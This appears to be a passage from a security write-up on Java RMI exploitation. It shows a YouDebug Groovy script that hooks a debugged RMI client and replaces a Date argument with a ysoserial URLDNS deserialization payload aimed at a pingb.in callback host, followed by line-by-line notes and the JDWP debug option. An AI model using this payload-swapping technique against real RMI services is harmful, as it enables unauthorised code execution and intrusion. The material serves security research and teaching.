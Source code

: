 `pwn.groovy`:

```java
1. // MODIFIED FROM SOURCE: https://mogwailabs.de/en/blog/2019/03/attacking-java-rmi-services-after-jep-290/
1. def payloadName = "URLDNS";
2. def payloadCommand = "http://http://d1af66997310af6302b4fc41c19a.ns.pingb.in";
3. 
4. println "Loaded..."
5. 
6. vm.methodEntryBreakpoint("java.rmi.server.RemoteObjectInvocationHandler", "invokeRemoteMethod") {
7. 
8.   println "[+] java.rmi.server.RemoteObjectInvocationHandler.invokeRemoteMethod() is called"
9. 
10.   // make sure that the payload class is loaded by the classloader of the debugee
11.   vm.loadClass("ysoserial.payloads." + payloadName);
12. 
13.   // get the Array of Objects that were passed as Arguments
14.   delegate."@2".eachWithIndex { arg,idx ->
15.    if (arg[0].toString().contains("1337")) {
16.         println "[+] Replacing Date object with malicous object!" 
17. 		// Create a new instance of the ysoserial payload in the debuggee
18.         def payload = vm._new("ysoserial.payloads." + payloadName);
19.         def payloadObject = payload.getObject(payloadCommand)
20. 	   
21.         vm.ref("java.lang.reflect.Array").set(delegate."@2",2, payloadObject);
22.         println "[+] Done.."	
23.      }
24.   }
25. }
```

To quickly explain the behavior of the script:

- Line 14 starts iterating through the arguments of each method. As there are two remote methods called in the RMI client:

```java
    IServiceA svc_a = (IServiceA) example_service.returnService("Service A");
    svc_a.createOrder(1337, "Random", new Date());
```

- Line 15 verifies that the first argument's value once converted to a String) is 1337. This is done because the object which will be replaced is in the second method, and not the first.

- If the value is indeed equal to 1337, then the malicious object is generated on Lines 18 & Lines 19.

- Line 21 swaps the third argument (since array indexes start 0) aka the `Date` object with the malicious object.

In order to allow `YouDebug` to hook into the RMI Client, the RMI Client will need to be started with remote debugging support. This can be achieved by passing the following value as a VM option:

`-agentlib:jdwp=transport=dt_socket,server=y,address=127.0.0.1:8000`
